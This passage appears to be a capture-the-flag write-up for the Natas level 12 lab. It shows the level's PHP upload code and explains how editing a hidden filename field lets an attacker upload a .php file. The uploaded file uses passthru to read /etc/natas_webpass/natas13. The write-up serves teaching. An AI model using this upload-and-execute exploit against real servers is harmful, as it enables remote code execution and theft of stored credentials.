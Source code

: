 ```php
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

It may seem by `$ext = pathinfo($fn, PATHINFO_EXTENSION);` that any file of the name `*.jpg.php` will not only be uploaded but also be uploaded as a valid php file. However, notice that the statement responsible for calling the above statement is `$target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);` which captures `$_POST["filename"]`. Now when we search for `filename`, we obtain the statement 

```php
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

which forces the filename to be a `jpg`. Evidently, any file of the form `*.jpg.php` gets uploaded as a random `jpg`. To overcome this, open `inspect element` and change this line to:

```php
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.php" />
```

Now create a file `index.jpg.php` with the following code:

```php
<html>
<head>
<title>Online PHP Script Execution</title>
</head>
<body>
<?php
  echo "Hello\n";
  echo passthru("cat /etc/natas_webpass/natas13");
  echo "\n";
?>
</body>
</html>
```
